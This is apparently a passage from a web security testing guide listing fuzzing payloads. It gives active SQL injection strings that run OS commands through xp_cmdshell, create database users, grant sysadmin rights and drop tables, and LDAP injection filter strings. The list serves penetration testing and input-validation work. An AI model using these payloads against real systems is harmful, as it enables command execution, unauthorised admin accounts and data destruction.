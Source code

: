### Active SQL Injection (SQI)

`'; exec master..xp_cmdshell 'ping 10.10.1.2'--`

`CREATE USER name IDENTIFIED BY 'pass123'`

`CREATE USER name IDENTIFIED BY pass123 TEMPORARY TABLESPACE temp DEFAULT TABLESPACE users;`

`' ; drop table temp --`

`exec sp_addlogin 'name' , 'password'`

`exec sp_addsrvrolemember 'name' , 'sysadmin'`

`INSERT INTO mysql.user (user, host, password) VALUES ('name', 'localhost', PASSWORD('pass123'))`

`GRANT CONNECT TO name; GRANT RESOURCE TO name;`

`INSERT INTO Users(Login, Password, Level) VALUES( char(0x70) + char(0x65) + char(0x74) + char(0x65) + char(0x72) + char(0x70)`

`+ char(0x65) + char(0x74) + char(0x65) + char(0x72),char(0x64)`

## LDAP Injection

For details on LDAP Injection: [Testing for LDAP Injection](../4_Web_Application_Security_Testing/4.8_Input_Validation_Testing/4.8.6_Testing_for_LDAP_Injection_WSTG-INPVAL-006.md)

`|`

`!`

`(`

`)`

`%28`

`%29`

`&`

`%26`

`%21`

`%7C`

`*|`

`%2A%7C`

`*(|(mail=*))`

`%2A%28%7C%28mail%3D%2A%29%29`

`*(|(objectclass=*))`

`%2A%28%7C%28objectclass%3D%2A%29%29`

`*()|%26'`

`admin*`
